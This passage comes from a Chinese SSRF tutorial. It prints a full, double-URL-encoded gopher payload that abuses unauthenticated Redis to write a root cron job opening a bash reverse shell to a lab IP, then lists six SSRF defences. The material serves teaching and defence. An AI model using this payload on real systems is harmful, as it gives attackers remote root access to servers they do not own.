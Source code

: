 ```
由于我们演示的示例，服务端代码是通过curl_exec()函数触发的ssrf，所以要对payload中无用字符_符
号后面的数据进行二次url编码
二次url编码之后：
gopher://192.168.118.176:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252470%250D%250A%250A%250A%252A%2F1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-c%2520%2522sh%2520-i%2520%253E%2526%2520%2Fdev%2Ftcp%2F192.168.118.176%2F1234%25200%253E%25261%2522%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2Fvar%2Fspool%2Fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```
使用payload,查看redis所在服务器，看到了定时任务。并且拿到了受害主机的反弹shell。这样就完成了ssrf漏洞利用redis未授权访问漏洞来完成的反弹shell的操作。
## 十二、SSRF漏洞防御手法
通常有以下6个思路：
1、过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型
的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
2、统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
3、限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4、防火墙策略，内网ip设置黑名单。避免应用被用来获取获取内网数据，攻击内网。
5、禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
6、url网址写死，固定几个网址，其他网址一律不允许访问